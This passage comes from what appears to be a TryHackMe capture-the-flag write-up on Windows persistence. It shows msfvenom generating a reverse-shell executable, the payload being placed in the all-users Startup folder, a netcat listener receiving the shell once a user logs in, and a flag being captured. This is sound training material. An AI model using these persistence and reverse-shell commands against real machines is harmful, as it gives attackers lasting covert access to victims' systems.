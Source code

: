 ```PowerShell
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/7/2023   5:31 PM           7168 revshell.exe
```
8. `move <PAYLOAD NAME>.exe <DESTINATION PATH>` from the compromised Windows machine to move our payload into the **C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp** directory, which is a directory that contains executables that all get executed whenever a user logs in to the compromised Windows machine
```PowerShell
PS C:\Users\Administrator> move revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
        1 file(s) moved.
```
9. After successfully executing the previous commands, we signed out and logged back in from the compromised Windows machine, which ended up executing our payload that we move in to the **C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp** directory after we logged back in, which ended up creating a reverse shell that connected back to our attack machine's netcat listener

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Sign%20Out.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnect.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnected.png)

```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.236.33 49721 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
10. `C:\flags\flag10.exe` from our reverse shell on our attack machine to run the **flag10.exe** program, which ended up containing this task's flag and displaying it onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag10.exe
C:\flags\flag10.exe
THM{NO_NO_AFTER_YOU}
```


**TASK COMPLETED!**

# Run / RunOnce
1. Started up this task's machine
2. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACK MACHINE IP> LPORT=<PORT NUMBER> -f <PAYLOAD FORMAT> -o <PAYLOAD NAME>.exe` from our Linux attack machine to use Metasplout's msfvenom to generate a Windows executable for a reverse shell payload that we'll execute on the compromised Windows machine
```Bash
root@ip-10-10-157-221:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.157.221 LPORT=9999 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```